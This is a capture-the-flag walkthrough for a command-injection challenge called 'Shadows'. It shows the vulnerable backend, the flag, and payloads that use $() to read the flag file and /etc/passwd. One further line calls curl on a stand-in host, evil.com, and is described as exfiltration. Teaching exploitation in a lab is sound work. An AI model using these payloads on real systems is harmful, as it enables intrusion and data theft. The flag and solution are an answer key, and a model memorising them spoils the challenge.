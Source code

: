 # Shadows Walkthrough

## Challenge Overview
**Difficulty**: Hard  
**Vulnerability**: Command Injection  
**Flag**: nhc{sh4d0w_c0mm4nd_3x3cut3d}

## Story Context
Hattori infiltrates the Shadow Garrison, where reconnaissance terminals hold the power to execute commands in the darkness.

## Solution Steps

### Step 1: Access the Challenge
1. Navigate to `/challenge/shadows`
2. Observe the IP scanning terminal

### Step 2: Understand the Vulnerability
The backend executes:
```python
command = f'echo "Scanning {ip}" ; ping -c 1 {ip}'
result = os.popen(command).read()
```

### Step 3: Bypass Input Filters
Blocked characters: `;`, `|`, `` ` ``, `&`
Allowed: alphanumeric, dots, hyphens, `$`, `(`, `)`

### Step 4: Craft Command Injection
1. Use `$()` for command substitution
2. Read the flag file: `shadow_fragment.txt`
3. Payload: `127.0.0.1$(cat shadow_fragment.txt)`

### Step 5: Execute and Capture Output
1. Submit the payload
2. The output should contain: `nhc{sh4d0w_c0mm4nd_3x3cut3d}`
3. Copy the flag from the scan results

## Hints

### Hint 1
> The terminal blocks common injection characters. Look for alternative ways to execute commands.

### Hint 2
> Command substitution allows executing commands within other commands. The `$()` syntax might work.

### Hint 3
> The flag is stored in a file called `shadow_fragment.txt`. How can you read file contents through command injection?

## Educational Notes

### What You Learned
- **Command Injection**: Executing system commands through web inputs
- **Input Filtering**: Bypassing security filters
- **Command Substitution**: Using `$()` to execute nested commands
- **Shell Escaping**: Alternative injection techniques

### Real-World Impact
- Server compromise
- Data exfiltration
- Malware execution
- Privilege escalation

### Prevention
- Input validation and sanitization
- Whitelist allowed characters
- Use safe APIs instead of shell commands
- Parameterized execution
- Least privilege execution

## Alternative Payloads

### Basic Command Injection
```
127.0.0.1$(whoami)
```
Shows current user.

### File Reading
```
127.0.0.1$(cat /etc/passwd)
```
Reads system password file.

### Directory Listing
```
127.0.0.1$(ls -la)
```
Lists directory contents.

### Advanced Injection
```
127.0.0.1$(curl http://evil.com/data)
```
Exfiltrates data to external server.

## Testing Commands

### Safe Testing
```bash
# Test command substitution
echo "Scanning 127.0.0.1$(echo ' injected')"
```

### Python Simulation
```python
import os
ip = "127.0.0.1$(cat shadow_fragment.txt)"
command = f'echo "Scanning {ip}" ; ping -c 1 {ip}'
print("Command:", command)
# result = os.popen(command).read()
```

## Common Mistakes
- Using blocked characters (`;`, `|`, etc.)
- Not understanding command substitution syntax
- Wrong file path or name
- Not capturing the full output

## Filter Bypass Techniques

### Character Substitution
- Use `$()` instead of backticks
- Use `${}` for variable expansion

### Encoding
- URL encoding special characters
- Using hex or octal representations

### Alternative Injection Points
- Other shell metacharacters
- Environment variable manipulation

## Next Steps
Submit the flag extracted from the file to unlock the Flame challenge.
